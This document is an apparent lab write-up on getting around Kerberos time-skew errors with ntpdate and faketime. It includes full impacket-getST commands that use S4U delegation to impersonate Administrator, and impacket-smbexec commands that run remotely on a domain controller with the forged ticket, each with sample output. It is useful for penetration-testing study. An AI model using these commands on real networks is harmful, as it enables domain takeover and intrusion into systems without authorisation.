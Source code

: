 # By vishok kerberos
# error fized
####
####
####
## Bypassing Kerberos Time Verification
### Clock skew too great:
**Kerberos** is a network authentication protocol that uses encrypted tickets to verify identities in distributed systems. One of its fundamental security measures is **strict time synchronization** between clients and servers.
####
<div class="tip">

> Is time to perfom a deep analysis to fixed this error. 
</div>

####
```ruby
Kerberos(Clock Skew Too Great)
```
####
Occurs when there's a time difference greater than **5 minutes** (by default) between the local clock and the DC[*Domain Controller*]. This protection prevents replay attacks where an attacker might attempt to reuse old tickets. In compromised environments or during penetration testing, this mechanism can block valid TGT [*Ticket Granting Ticket*] acquisition, preventing access to resources.
####
####
####
## Solution using ntpdate
### Ntpdate:
The **ntpdate** command is a utility for setting and synchronizing the date and time of a computer system to match that of a reliable NTP [*Network Time Protocol*] server. By ensuring the system clock is accurate, ntpdate helps maintain system logs, schedule tasks, and ensure time-sensitive operations run effectively. But this protocol or service can not work, installed or available to distribution that you are using.
####
```ruby
sudo systemctl status systemd-timesyncd          
    Result ->
        Unit systemd-timesyncd.service could not be found.
```
####
Synchronizing a computer internal clock is crucial in maintaining synchronization across clusters databases, and logging services. When systems operate on different times, anomalies may occu  to data corruption or erroneous log entries. Using sudo ntpdate host, an administrator can  computer clock adheres to a globally accepted time standard provided by a specific host stron or NTP server.
####
```ruby
ntpdate coloso.local
    Result ->
        2025-05-06 15:12:02.237340 (-0700) +3181.036456 +/- 0.059572 coloso.local 10.10.11.51 s1 no-leap
        CLOCK: step_systime: Operation not permitted
```
####
Under certain conditions, it might be necessary to enforce an instantaneous time adjustment rather than gradual
syncing, for example avoiding time make use **slewed**, **settimeofday**.
####
```ruby
ntpdate -b coloso.local
```
####
In many cases de the speed of the internet play a crucial role when you try to syncronize against a Domain Controller, in very useful to have so kwoledge in automation programing lenguajes.
####
<div class="tip">

> Is time to craft our custom script to send a **multiple** syncronizing attempt request.
</div>

####
```ruby
for x in $(seq 1 10); do sudo ntpdate coloso.local; done
```
####
####
####
## Solution using faketime
### Faketime:
The **faketime** tool intercepts system time-related calls, allowing applications to be *FOOLED* about the current time, we can use this to bypass the **Kerberos time verification** in **impacket** tools against a Windows System Operation that running over a Domain Controller.
####
First we obtain the exact time from the Domain Controller via SMB, since this protocol doesn't have the same time restrictions as Kerberos and then we use faketime with the obtained time to generate our TGT. This step generates a `.ccache` file with a valid Kerberos ticket, synchronized with the *DC* time.
####
| Get date commands | Description |
| ----- | ----- |
| date /t | Displays only the current date | 
| time /t | Displays only the current time |
| date | Displays and allows you to modify the date |
| Get-Date | Displays full date and time |
| Get-Date -Format "dd/MM/yyyy" | Custom output date | 
| Get-Date -Format "HH:mm:ss" | Hour in 24h format |
| (Get-Date).DayOfWeek | Day of the week |
####
Once we obtain the time of the DC or Windows, we must to pass that time to **faketime**:
####
```ruby
date
    Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

faketime "2025-05-06 15:07:50"
```
####
That command is very important that was executed in the same line or in the same command when you try to connect or get A *TGT* ticket: `faketime - impacket-getST`.
####
<div class="warning">

> The **faketime** command must be added in the same line without use **pipes**, **xargs** etc.
</div>

####
So if we want to get a TGT, we must to execute the next command:
####
```ruby
faketime "2025-04-19 21:24:36" impacket-getST -spn 'cifs/coloso.local' -impersonate Administrator -dc-ip 10.10.11.174 'coloso/vishok$:vishok'
    Result ->
        [+] Getting TGT for user
        [+] Impersonating Administrator
        [+]     Requesting S4U2self
        [+]     Requesting S4U2proxy
        [+] Saving ticket in Administrator.ccache
```
####
The `faketime "2025-04-19 21:24:36" impacket-getST` is in the same line, both are different comands. Furthermore, the second command will haven't a highlight color, but this is normal, don't worry, the second command will be executed.
####
####
####
## Technical Deep Dive: faketime mechanics
### Deep Dive:
**Faketime** works by intercepting system calls related to time through *LD_PRELOAD*, a Linux mechanism that loads libraries before others. The *LD_PRELOAD* variable allows to paths to libraries which are to be loaded before any other libraries are loaded. What’s important, the  symbols e.g. functions contained in the preloaded libraries take precedence over the symbols from libraries loaded afterwards.
####
When applications like **impacket-getST** make system calls to check the current time like `time()`, `gettimeofday()`, or `clock_gettime()`, these calls are redirected to libfaketime instead of the standard C library.
####
<div class="img">
    <img src="/machines/public/clockskew/2.png" loading="lazy" decoding="async" />
</div>

####
####
####
## Final configuration
### KRB5CCNAME:
To use the generated ticket, we export it as an environment variable this tells Impacket tools where to find our Kerberos credentials. Finally we execute the target command with the spoofed time:
####
```ruby
date
Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

KRB5CCNAME=Administrator.ccache faketime "2025-04-19 21:30:08" impacket-smbexec -dc-ip 10.10.11.174 -no-pass -k coloso/administrator@coloso.local
```
####
How you can see, in all moment is necessary use the **faketime**.